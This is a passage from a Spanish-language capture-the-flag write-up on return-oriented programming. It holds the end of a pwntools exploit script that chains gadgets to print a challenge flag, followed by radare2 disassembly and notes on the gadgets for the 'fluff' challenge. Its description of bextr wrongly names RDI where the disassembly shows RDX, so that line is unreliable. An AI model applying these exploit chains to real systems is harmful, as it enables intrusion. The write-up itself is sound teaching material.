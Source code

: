 ```python
gadget += p64(0x4006a0) # pop R14 ; pop R15 ; ret
gadget += p64(0x20)
gadget += p64(writable_address + 6)
gadget += p64(0x400628) # xor byte [r15], r14b ; ret

# GADGET 7 => prints file
gadget += p64(0x4006a3) # pop RDI ; ret
gadget += p64(writable_address)
gadget += p64(print_file)

p.sendline(offset + RBP + gadget)

# PRINT FLAG
p.recvuntil("you!\n")
print(p.recvline())
exit(0)
```

---
# fluff

> Sort the useful gadgets from the fluff to construct another write primitive in this challenge. You'll have to get creative though, the gadgets aren't straightforward.
---

### Analizar el binario

Comienzo con el análisis estático del binario con radare2, no encuentro gadgets que me permitan escribir en memoria, buscando símbolos me encuentro algo interesante:

```
[0x00400617]> is
...
37   0x00000628 0x00400628 LOCAL  NOTYPE 0        questionableGadgets
...
[0x00400617]> s 0x00400628
[0x00400628]> pd 10
            ;-- questionableGadgets:
            0x00400628      d7             xlatb
            0x00400629      c3             ret
            0x0040062a      5a             pop rdx
            0x0040062b      59             pop rcx
            0x0040062c      4881c1f23e00.  add rcx, 0x3ef2
            0x00400633      c4e2e8f7d9     bextr rbx, rcx, rdx
            0x00400638      c3             ret
            0x00400639      aa             stosb byte [rdi], al
            0x0040063a      c3             ret
            0x0040063b      0f1f440000     nop dword [rax + rax]
```

De aquí me interesan 3 gadgets:
1. stosb byte [rdi], al		=> es similar a "mov byte [RDI], AL"
2. xlatb 			=> es similar a "mov byte AL, [RBX + AL]"
3. bextr rbx, rcx, rdx ; ret	=> los bits 0:7 de RDI indican el índice y los bits 8:15 de RDI indican el tamaño de bits que se copiarán de RCX a RBX.
